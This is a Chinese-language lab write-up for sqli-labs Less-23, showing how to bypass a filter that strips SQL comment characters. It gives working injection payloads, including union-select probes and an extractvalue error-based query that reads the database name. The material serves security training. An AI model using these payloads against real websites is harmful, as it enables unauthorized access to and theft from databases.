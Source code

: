 ```yaml
---
title: 绕过注释过滤
toc: true
description: 本文通过 sqli-lab 23 来介绍如何绕过注释被过滤的情况
categories:
    - websec
    - sql injection
date: 2019-08-04 09:06:49
tags:
---
```


## 检测注入点

?id=1'

回显：

> **Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **C:\phpStudy\WWW\sqli-labs\Less-23\index.php** on line **38**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

根据报错：'1'' LIMIT 0,1，我们知道闭合方式为单引号，后面还有语句，可以用注释注释掉。

下面构造：?id=1' --+ 和 ?id=1' %23

均回显：

> **Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **C:\phpStudy\WWW\sqli-labs\Less-23\index.php** on line **38**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

按理说，不应该报错，就是报错也应该报：' -- LIMIT 0,1 或 ' # LIMIT 0,1，这里我们可以得出，两种注释被过滤掉了。

下面看看源码，

```php
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
```

pre_replace 函数

> mixed preg_replace (mixed pattern, mixed replacement, mixed string [, int limit [, int &$count]] );

preg_replace 函数执行一个正则表达式的搜索和替换,搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换,后面可选的参数是用来控制替换次数与替换执行次数的。

这里，我们正式再次说一下（之前博文中讲过），两种构造 payload 的小差异（其实差异也不大）。

1. 闭合前面的，注释后面的，在中间构造新语句
2. 闭合前面的，注释后面的，在中间构造语句（当然，可以用中间构造的一部分来闭合后面的）

之所以比较正式的提出这两种，是因为我们习惯了（尤指我）前一种（比较暴力，而且需要注释管用的方法），其实，从实用角度来看，后一种比较好，不用担心注释问题。

## 猜字段

?id=1' order by 3,'1 3 个字段

上面涉及一个小知识点：order by 后面可以跟逗号分隔的多列，进行多列排序，优先级当然是第一个优先。因此，我们可以多写一个列来闭合后面的引号。

## 查看显示位

?id=-1' union select 1,2,'3

注意：这里的第三个字段是用来与后面闭合的，'3',因此，不能用来显示东西。不信，你试试：?id=-1' union select 1,2,'version()
，可是如果只有 3 是显示位，那我们该怎么办呢？

提出以下两种改进方案：（我比较喜欢第一种，因为第二种查询了 database(),感觉有点过早地触发敏感信息。）
?id=-1' union select 1,2,3 union select 4,5,'6
?id=-1' union select 1,2,3 from (select database())a where '1

第一种，就是再来一个 union select，因为联合查询前面语句查出来的总是靠前，因此，1，2，3 还是可以用来监测显示位的。

第二种就是纯粹为了找个引号，然后从某个数据库中查 1 ，在 where 条件加一个引号。

当然，此关使用报错注入等方式也可以
?id=1' or extractvalue(1,concat(0x7e,database())) or '1'='1

后面的操作与之前类似，不再详解。
